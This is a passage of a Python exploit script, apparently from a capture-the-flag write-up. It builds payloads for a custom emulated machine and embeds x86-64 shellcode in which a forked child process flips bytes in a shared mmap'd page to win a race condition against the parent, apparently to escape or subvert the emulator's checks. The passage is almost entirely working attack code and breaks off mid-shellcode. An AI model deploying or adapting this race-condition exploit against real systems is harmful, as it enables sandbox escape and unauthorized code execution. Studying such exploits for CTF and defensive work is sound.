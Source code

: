```python
    buffer += syscall(Syscalls.OPEN, out_reg=Regs.a)
    return buffer

def read_to_memory(fd, offset, count):
    buffer = b''
    if type(fd) == int:
        buffer += write_register(Regs.a, value=fd)
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.READ_MEM, out_reg=Regs.a)
    return buffer

def write_from_memory(fd, offset, count):
    buffer = b''
    if type(fd) == int:
        buffer += write_register(Regs.a, value=fd)
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.WRITE_MEM, out_reg=Regs.a)
    return buffer

def store_string(addr, string):
    assert(type(string) == bytes)
    buffer = b''
    for i, b in enumerate(string):
        buffer += write_register(Regs.a, b)
        buffer += write_register(Regs.b, addr + i)
        buffer += store_in_memory(addr=Regs.b, register=Regs.a)
    return buffer

SHELLCODE = '''
user_shellcode:
mov rdi, 0
mov rsi, 0x1000
mov rdx, 3
mov r10, 1
mov r8, 3
mov r9, 0
mov rax, 9
syscall
mov [rip + saved_mmap_addr], rax

mov rax, 57
syscall
cmp rax, 0
jne parent

child:
mov rbx, [rip + saved_mmap_addr]
add rbx, 72
mov cl, 0x10
mov dl, 0x20

race_loop:
mov byte ptr [rbx], cl
mov byte ptr [rbx], dl
jmp race_loop

parent:
mov rax, [rip + saved_mmap_addr]
lea rbx, [rip + yancode_start]
mov rcx, 0

```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html